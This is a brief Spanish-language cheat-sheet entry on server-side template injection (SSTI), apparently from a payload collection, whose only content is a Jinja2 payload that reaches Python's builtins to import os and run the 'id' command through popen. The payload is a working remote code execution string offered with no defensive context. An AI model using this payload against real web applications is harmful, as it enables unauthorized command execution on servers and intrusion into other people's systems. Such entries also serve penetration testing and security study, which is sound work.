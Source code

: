 # SSTI

## Ejecución de comandos jinja2

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```